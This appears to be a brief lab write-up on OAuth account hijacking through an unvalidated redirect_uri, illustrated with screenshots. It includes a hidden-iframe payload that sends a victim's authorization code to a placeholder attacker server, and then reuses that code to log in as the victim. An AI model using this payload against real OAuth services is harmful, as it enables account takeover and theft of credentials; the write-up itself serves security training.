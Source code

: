 # OAuth account hijacking via redirect_uri

We set our server as the value of the redirect_uri parameter.

![Screenshot1](/04-Screenshots/1-OAuth-account-hijacking-via-redirect_uri.png)

In the logs of our server we obtained, as a PoC:

![Screenshot2](/04-Screenshots/2-OAuth-account-hijacking-via-redirect_uri.png)

With the same logic créate a script that we will send to the victim


```js
<iframe src="https://<OAUTH-IP>/auth?client_id=<YOUR-CLIENT-ID>&redirect_uri=<EXPLOIT-SV>&response_type=code&scope=openid%20profile%20email"hidden="hidden"></iframe>
```

We obtain the victim's code and submit it to /oauth-callback.

![Screenshot3](/04-Screenshots/3-OAuth-account-hijacking-via-redirect_uri.png)

![Screenshot4](/04-Screenshots/4-OAuth-account-hijacking-via-redirect_uri.png)

